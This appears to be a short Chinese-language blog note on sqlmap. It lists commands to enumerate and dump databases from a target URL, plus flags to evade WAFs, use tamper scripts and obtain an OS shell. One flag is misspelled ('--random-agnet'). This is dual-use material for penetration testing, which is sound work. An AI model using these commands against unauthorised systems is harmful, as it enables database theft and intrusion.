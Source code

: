 ```yaml
---
title: SQLmap Note
date: 2024-07-30
categories: [資安]
tags: [note,sqlmap]

description: 基本sqlmap使用方法

published: true #不顯示此文章
---
```



請參考:[飛飛的SQLmap教學](https://feifei.tw/security-tool-sqlmap/ "https://feifei.tw/security-tool-sqlmap/")
## 基本payload

```
#取得資料庫
sqlmap -u "URL" --dbs

#取得資料表
sqlmap -u "URL" -D 資料庫名稱 --tables

#取得欄位
sqlmap -u "URL" -D 資料庫名稱 -T 資料表名稱 --columns

#取得指定欄位的資料
sqlmap -u "URL" -D 資料庫名稱 -T 資料表名稱 -C 欄位1,欄位2 --dump
```

## 常用參數

```
#自動(選擇預設值)
--batch

# 使用隨機選擇的 HTTP User-Agent 標頭值，用於繞過 WAF
--random-agnet

# 指定後端資料庫類型
# 中間有空格要使用雙引號，如："Microsoft Access"
--dbms "mysql"

#強制使用 SSL/HTTPS
--force-ssl

# 跳過防火牆檢測測試
--skip-waf

# 獲取RCE
--os-shell

#清除復現過程記錄
--flush-session 
```

## 內建腳本

SQLMap 內建了一些腳本來進行更高級的操作和測試。這些腳本可以用來加強 SQL 注入攻擊的效果或是進行更多細緻的操作。
```sh
# 使用 tamper script 來繞過 WAF 
--tamper="tamper_script_name"  
# 列出所有內建腳本 
sqlmap --list-tampers`
```

